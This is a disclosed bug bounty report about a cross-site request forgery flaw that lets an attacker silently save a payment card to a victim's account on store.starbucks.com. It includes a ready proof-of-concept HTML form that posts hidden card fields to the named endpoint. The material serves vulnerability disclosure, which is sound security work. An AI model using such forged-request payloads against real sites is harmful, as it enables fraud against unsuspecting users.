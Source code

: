 # CSRF vulnerability in saving payment card on store.starbucks.com (COBilling -AddCreditCard)

## Report Details
- **Report ID**: 177635
- **URL**: https://hackerone.com/reports/177635
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-10-23T12:14:07.971Z
- **Disclosed**: 2017-05-15T17:10:49.615Z

## Reporter
- **Username**: codequick
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,

I noticed a CSRF issue that associated with card saving. It is possible for to save card details and can be used for quick payments while purchasing. The result will be a remote attacker can trick users to use some other cards that may silently led to loss of money in which actully it is not for online shopping purpose cards. Mainly this may allow an attacker to change the card details of the online purchasing card of the victim to some important cards good scenario will be the attacker can make trick on family members itself.



```
<html>
  <body>
    <form action="https://store.starbucks.com/on/demandware.store/Sites-Starbucks-Site/default/COBilling-AddCreditCard" method="POST">
      <input type="hidden" name="dwfrm&#95;billing&#95;paymentMethods&#95;creditCard&#95;type" value="Visa" />
      <input type="hidden" name="dwfrm&#95;billing&#95;paymentMethods&#95;creditCard&#95;owner" value="helloworld" />
      <input type="hidden" name="dwfrm&#95;billing&#95;paymentMethods&#95;creditCard&#95;number" value="███████" />
      <input type="hidden" name="dwfrm&#95;billing&#95;paymentMethods&#95;creditCard&#95;month" value="10" />
      <input type="hidden" name="dwfrm&#95;billing&#95;paymentMethods&#95;creditCard&#95;year" value="2&#44;019" />
      <input type="hidden" name="dwfrm&#95;billing&#95;paymentMethods&#95;creditCard&#95;saveCard" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Critical level goes from Low to medium depending on the nature of the attacker to perform this attack.

## Attachments
No attachments
